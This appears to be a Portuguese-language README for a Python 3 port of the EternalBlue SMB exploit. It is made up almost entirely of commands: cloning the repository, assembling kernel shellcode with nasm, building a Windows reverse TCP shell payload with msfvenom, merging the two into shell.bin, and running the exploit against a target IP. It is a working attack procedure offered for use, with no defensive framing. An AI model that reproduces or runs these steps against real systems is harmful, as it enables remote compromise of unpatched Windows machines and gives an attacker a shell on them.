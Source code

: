 # EternalBlue com Python3

##

### 1. Clonando o repositorio:

```
git clone https://github.com/hasecto/eternalblue_python3.git
```

## 2. Compilando o shellcode:

### x64

```
nasm -f bin shellcode/eternalblue_x64.asm -o ./sc_x64_kernel.bin
```

### x86

```
nasm -f bin shellcode/eternalblue_x86.asm -o ./sc_x86_kernel.bin
```

## 3. Criando o payload:

### x64

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=IP --platform windows -a x64 --format raw -o sc_x64_payload.bin
```

### x86

```
msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=IP --platform windows -a x86 --format raw -o sc_x86_payload.bin
```

### Fazendo o Merge dos arquivos:

### x64
```
cat sc_x64_kernel.bin sc_x64_payload.bin > shell.bin
```
### x86
```
cat sc_x86_kernel.bin sc_x86_payload.bin > shell.bin
```

## 4. Exploit:

```
python3 eternalblue.py Alvo-IP shell.bin
```


